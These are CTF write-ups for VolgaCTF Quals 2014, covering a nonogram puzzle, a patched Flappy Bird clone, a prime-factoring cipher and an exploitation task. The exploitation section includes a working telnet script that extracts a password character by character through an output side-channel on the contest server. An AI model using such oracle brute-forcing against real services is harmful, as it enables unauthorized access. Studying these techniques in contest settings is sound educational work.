 <link rel='stylesheet' href='markdown8.css'/>

VolgaCTF Quals 2014 Writeups
============================
<a id="joy200"></a>
Joy 200
-------

Japcross.txt resembles a picross/nonogram puzzle. It's a bit large to solve by hand, so we wrote a script to reformat it:

	rows = open('japcross.txt').read().split('\r\n')

	def get(x,y):
		return rows[y].split('\t')[x]

	ver = []
	hor = []
	for y in range(11,44):
		vals = []
		for x in range(11,-1,-1):
			r = get(x,y)
			if not r: break
			vals = [r] + vals
		ver.append(vals)

	for x in range(12,45):
		vals = []
		for y in range(10,-1,-1):
			r = get(x,y)
			if not r: break
			vals = [r] + vals
		hor.append(vals)

	print "width", len(hor)
	print "height", len(ver)
	print
	print "rows"
	for row in ver:
		print ','.join(row)
	print
	print "columns"
	for col in hor:
		print ','.join(col)

Then, we submitted it to an online solver [here](http://www.comp.lancs.ac.uk/~ss/nonogram/auto):

![The solution](joy200.png)

The QR code encodes "longing for you drove me through the stars. Alexei Tolstoy". This entire string was the flag.

<a id="joy300"></a>
Joy 300
-------

CTFy Rocket is a Flappy Bird clone apparently developed in Borland Delphi. The stated goal in the challenge description is to reach the 42nd "parsec". 

In TForm1_Timer1Timer we find the code that checks for collisions and travel out of bounds. By debugging the game and setting breakpoints, we find that there are two large conditional blocks responsible for collision checking:

	if ( *(_DWORD *)(v8 + 68) < *(_DWORD *)(v9 + 68) + 600
	< more expressions >
	&& *(_DWORD *)(*(_DWORD *)(v2 + 760) + 64) < *(_DWORD *)(*(_DWORD *)(v2 + 788) + 64) + 100 )
	dword_45CE14 = 572;

	if ( *(_DWORD *)(v13 + 68) < *(_DWORD *)(v14 + 68) + 600
	< more expressions >
	&& *(_DWORD *)(*(_DWORD *)(v2 + 760) + 64) < *(_DWORD *)(*(_DWORD *)(v2 + 788) + 64) + 100 )
	dword_45CE14 = 1323;

Then, `dword_45CE14` is later compared to 572. If greater than or equal, the game ends:

	if ( dword_45CE14 >= 572 )
	  {
	    Controls__TControl__SetVisible(*(_DWORD *)(v2 + 760), 0);
	    unknown_libname_442(*(_DWORD *)(v2 + 792), 0);
	    LOBYTE(v11) = 1;
	    Controls__TControl__SetVisible(*(_DWORD *)(v2 + 808), v11);
	    LOBYTE(v12) = 1;
	    Controls__TControl__SetVisible(*(_DWORD *)(v2 + 840), v12);
	    Controls__TControl__SetLeft(*(_DWORD *)(v2 + 808), *(_DWORD *)(*(_DWORD *)(v2 + 760) + 64));
	    Controls__TControl__SetTop(*(_DWORD *)(v2 + 808), *(_DWORD *)(*(_DWORD *)(v2 + 760) + 68));
	  }

On several occasions, the text of a hidden caption is manipulated in a function that didn't appear fun to reverse:

	Controls__TControl__GetText(*(_DWORD *)(v2 + 816), &v27);
	sub_4581B4(v27, v7, &v29);
	Controls__TControl__SetText(*(_DWORD *)(v2 + 816), v29);

The number of times this occurred also proved difficult to calculate, so we focused on removing collision checks instead.

After the game began, we patched the binary to set `dword_45CE14` to 256 each time a collision occured. Then, we were able to fly through the level ignoring obstacles. Once we reached the 42nd parsec, the hidden caption was revealed and it contained our flag.

<a id="crypto100"></a>
Crypto 100
----------

Initially, this challenge was very difficult. Though the encoding function was easy to analyze and reimplement, decoding the provided plaintext required some algorithmic skill. Here is the original encoding function:

	def encode(s):
		n = 1
		i = 0
		for c in s:
			if c not in string.letters: break
			c = ord(c.upper())-ord('A')
			n *= pow(primes[c],primes[i])
			i += 1
		return n

Note that any character that is not a character between A-Z is ignored, along with the rest of the string. This behavior matches what we observed from the service on port 28121. A hint was later provided: "the plaintext we encrypted using the oracle is a single meaningful word." Having reproduced the encoding function, I tried encoding each of 60 million words appearing in the English Wikipedia, but found no matches.

Then, the challenge was updated. The only modification was that primes expressible as the sum of previous primes were omitted from the primes table. That is, previously, a `2^5` might have represented either A's in the first and second positions, or an A in the third position. The updated challenge skipped 5 and represented the third position by 7 instead. So, the new challenge simply required factoring the provided number in Mathematica:

	n = 1514765623131713617459556538106848713973303979708039641578
	...
	595865360437951910254909481033;

	SortBy[FactorInteger@n, Last]
	{{59, 2}, {3889, 3}, {1993357, 7}, {127, 13}, {15569, 59}, {241, 127}, {487, 487}, {7789, 971}, {29, 2219}, {249181, 3889}}

This was short enough to solve manually. Rather than calculate the appropriate new primes, I simply encoded A-Z using the service. Examining only prime exponents for now, the solution is `FLUG_NH_IM_R`, leaving `29^2219` unused. `29+241+1949=2219`, so we deduce that the remaining characters are E's. `FLUGENHEIMER` was the flag. 

(The English Wikipedia wordlist included Flugenheimen, but not Flugenheimer)

Exploits 100
------------

We are provided a binary and a host/port to connect to. The meat of the binary is:

	while ( 1 )	{
		do {
			read(fd, &input_buf, 15u);
			LOBYTE(v15[0]) = 0;
		}
		while ( strlen((const char *)&input_buf) != 13 );
		v5 = 0;
		for ( i = 0; i <= 11; ++i ){
			if ( pw_buf[i] == *((_BYTE *)&input_buf + i) )
			++v5;
		}
		if ( v5 == 12 ) break;
		v7 = rand() % 1000;
		for ( j = 0; j < v5; ++j )
		{
			for ( k = 1; (unsigned int)k <= 0xDEADBEEE; ++k )
			v7 = k ^ (k + v7);
		}
		sprintf(&s, "%x\n", v7);
		write(fd, &s, strlen(&s) - 1);
	}
	write(fd, flag_buf, strlen(flag_buf) - 1);

This reads in a string one character at a time, then compares it to a 12-character password. For each character that matches, `v5` is incremented. Then, it does some processing on a random variable `v7` unless `v5` is zero, and prints out `v7`. 

There are several possible approaches to this problem. It might be possible to determine some information about `v5` given several values of `v7` for the same string, but that'd be pretty difficult. We can also perform a timing attack on the `v5` value, since iteration from 1 to `0xDEADBEEE` takes a significant amount of time. 

However, we noted that `v7` will always be less than 1000 unless `v5` is greater than zero, and that `v7` will almost certainly be larger than 1000 if `v5` is nonzero. We infer that if the value returned is greater than 1000, at least one character matched the password.

So, we must first find a character that is not in the password. The string `'aaaaaaaaaaaa'` consistently returns numbers under 1000, so we can assume that `'a'` is not in the password. 

Then, we test the strings `'baaaaaaaaaaa'`, `'caaaaaaaaaaa'`, and so on until we receive a number greater than 1000 and advance to the next character. We used a script to automate this:

	import telnetlib
	import time
	import string 

	# t = telnetlib.Telnet('127.0.0.1', 7026)
	t = telnetlib.Telnet('tasks.2014.volgactf.ru', 28111)
	t.read_until('characters\n')
	def try_password(pw):
		print "trying", pw
		t.write(pw+'\n')
		return int(t.read_some(),16)

	cs = string.letters+string.punctuation+string.digits+' '
	a = ''
	for i in range(12):
		for c in cs:
			s = 'a'*(i)+c+'a'*(12-i-1)
			if try_password(s) > 1000:
				a+=c
				break

	print a

The password we extracted by this method was `S@nd_will2z0`, and providing this as the password returns the flag `Time_works_for_you`. Perhaps a timing attack was the intended solution?

